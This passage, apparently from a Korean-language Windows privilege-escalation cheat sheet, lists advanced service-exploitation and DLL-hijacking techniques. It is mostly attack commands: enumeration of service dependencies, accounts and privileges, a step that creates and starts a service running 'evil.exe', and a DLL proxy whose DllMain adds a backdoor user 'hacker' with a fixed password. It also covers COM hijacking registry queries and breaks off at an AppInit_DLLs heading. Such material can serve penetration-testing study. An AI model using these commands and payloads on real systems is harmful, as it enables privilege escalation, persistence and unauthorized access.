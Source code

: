 
## 👀 놓치기 쉬운 것들

### 🚨 고급 서비스 익스플로잇 기법

```cmd
:: 1. 서비스 dependency 악용
:: 종속 서비스를 통한 간접 공격
sc enumdepend VulnerableService
sc qc DependentService

:: 2. 서비스 계정 권한 확인
:: 서비스가 다른 계정으로 실행되는 경우
wmic service get name,startname | findstr /v "LocalSystem\|NT AUTHORITY"

:: 3. 서비스 로그온 권한 (SeServiceLogonRight)
whoami /priv | findstr "SeServiceLogonRight"

:: 4. 서비스 생성 권한 (Create Service)
accesschk.exe -uwcqv %USERNAME% "NT SERVICE\TrustedInstaller"

:: 5. 서비스 설치 파일 권한
:: MSI 설치 파일이나 서비스 설치 스크립트
dir /b /s C:\ | findstr /i "setup\|install" | findstr "\.exe$\|\.msi$"

:: 6. 임시 서비스 생성
:: 관리자 권한이 있는 경우 임시 서비스 생성
sc create TempService binpath= "C:\Windows\Temp\evil.exe"
sc start TempService
sc delete TempService

:: 7. 서비스 호스트 프로세스 (svchost.exe)
:: 여러 서비스를 호스팅하는 svchost 프로세스 분석
tasklist /svc | findstr svchost
```

### 🔍 DLL Hijacking 고급 기법

```cmd
:: 1. WinSxS 디렉토리 DLL 하이재킹
dir /b /s C:\Windows\WinSxS | findstr "\.dll$" | findstr version

:: 2. System32 DLL 프록시
:: 정상 DLL을 프록시하면서 악성 코드 실행
:: dllmain.c 예제:
/*
#include <windows.h>
HMODULE hMod;
BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        hMod = LoadLibrary(L"C:\\Windows\\System32\\version_orig.dll");
        system("net user hacker password123 /add");
    }
    return TRUE;
}
// 원본 DLL 함수들을 프록시
*/

:: 3. COM 하이재킹
:: COM 객체 등록을 통한 DLL 하이재킹
reg query HKEY_CURRENT_USER\Software\Classes\CLSID
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID

:: 4. AppInit_DLLs 레지스트리
```